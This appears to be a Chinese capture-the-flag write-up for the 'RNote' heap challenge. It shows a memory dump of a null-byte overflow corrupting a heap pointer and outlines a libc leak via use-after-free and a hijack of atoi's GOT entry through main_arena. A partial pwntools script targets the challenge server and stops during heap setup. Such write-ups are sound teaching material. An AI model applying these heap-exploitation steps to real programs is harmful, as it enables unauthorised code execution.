 
通过溢出后可以修改指针

```tex
0x6020e0:	0xe000000001	0x61616161
0x6020f0:	0x0	0xff7010
0x602100:	0xa000000001	0x62626262
0x602110:	0x0	0xff7100
0x602120:	0x1000000001	0x6363636363636363
0x602130:	0x6363636363636363	0xff7100 //null-byte溢出导致指针指向第一个堆块
```

事实上，这个时候就可以触发UAF泄露libc地址。讲道理到这里已经可以通过修改stdout指针去拿shell了，然而试了很久也没有成功，果断换个方法：先控制main_arena的top指针，使其指向atoi_got，最后再分配一块不在fastbin列表中的内存就可以控制atoi函数了。完整的脚本如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

local = 0
slog = 1

if slog: context.log_level = "debug"

def pwn():
    if local:
        p = process("./RNote")
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('rnote.2017.teamrois.cn', 7777)
        libc = ELF('./libc.so.6')

    def add(size, title, content):
        p.recvuntil("choice:")
        p.sendline('1')
        p.recvuntil('size:')
        p.sendline(str(size))
        p.recvuntil('title:')
        p.sendline(title)
        p.recvuntil('content:')
        p.sendline(content)

    def show(index):
        p.recvuntil("choice:")
        p.sendline('3')
        p.recvuntil('show:')
        p.sendline(str(index))
       
    def delete(index):
        p.recvuntil("choice:")
        p.sendline('2')
        p.recvuntil('delete:')
        p.sendline(str(index))

    add(0xe0, 'aaaa', 'bbbb')
    add(0xa0, 'bbbb', 'dddd')
    add(0x10, 'c'*0x10, 'dddd')
    add(0x60, 'dddd', 'dddd')
    add(0x60, 'dddd', 'dddd')
    delete(1)
    
    add(0x60, 'dddd', 'eeee')
    delete(4)
    delete(1)
```